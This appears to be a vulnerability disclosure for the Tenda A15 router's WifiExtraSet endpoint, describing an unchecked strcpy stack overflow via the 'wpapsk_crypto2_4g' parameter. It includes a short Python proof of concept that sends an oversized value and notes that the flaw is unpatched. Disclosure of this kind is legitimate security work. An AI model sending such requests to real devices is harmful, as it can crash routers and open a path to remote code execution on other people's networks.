


## Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "wpapsk_crypto2_4g" parameter at /goform/WifiExtraSet.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In the fromSetWirelessRepeat function, get the wpapsk_crypto2_4g parameter via websGetVar and pass it to the fifth parameter of set_repeat24



In the set_repeat24 function, the wpapsk_crypto variable is used in the strcpy function without any length checksum, which could lead to an attacker exploiting this buffer overflow to perform DOS attacks and RCE attacks.



## POC

```python
import requests

ip = '192.168.159.128'
url = f'http://{ip}/goform/WifiExtraSet'

payload = {
  
    'configured5g': 'true',
    'originSsid2_4g': '1234',
    'encode2_4g': '1234',
    'security2_4g': 'wpapsk',
    'wpapsk_type2_4g': 'wpa2',
    'wpapsk_crypto2_4g': 'a' * 0x100,
    'wpapsk_key2_4g': '1234567890'
}

res = requests.post(url=url, data=payload)

print(res)
```

## Trigger details

See video content

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
